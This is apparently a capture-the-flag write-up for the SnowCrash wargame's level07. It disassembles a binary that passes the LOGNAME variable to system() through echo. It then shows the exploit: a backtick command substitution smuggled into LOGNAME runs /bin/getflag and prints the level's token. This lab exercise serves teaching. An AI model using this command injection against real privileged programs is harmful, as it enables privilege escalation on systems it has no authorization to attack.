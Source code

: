 # Snow-crash - level07
## Find something
```bash
level07@SnowCrash:~$ ls
level07
```
* On exec of level07, we get "level07"
```bash
level07@SnowCrash:~$ ./level07 
level07
```
* With objdump -S we can see the usage of "getenv@plt" and "system@plt"
```bash
level07@SnowCrash:~$ objdump -S level07
[...]
 8048576:       e8 85 fe ff ff          call   8048400 <getenv@plt>
 804859a:       e8 71 fe ff ff          call   8048410 <system@plt>
[...]
```
* With objdump -s we can see the usage of 2 strings for getenv and system
```bash
level07@SnowCrash:~$ objdump -S level07
[...]
Contents of section .rodata:
 8048678 03000000 01000200 4c4f474e 414d4500  ........LOGNAME.
 8048688 2f62696e 2f656368 6f202573 2000      /bin/echo %s .
[...]
```
* At this point LOGNAME is "level07" as seen above. So this binary displays LOGNAME by executing echo with system. Which mean we can use echo to execute getflag by passing '\`/bin/getflag\`' to LOGNAME
```bash
level07@SnowCrash:~$ export LOGNAME=\`/bin/getflag\` && ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
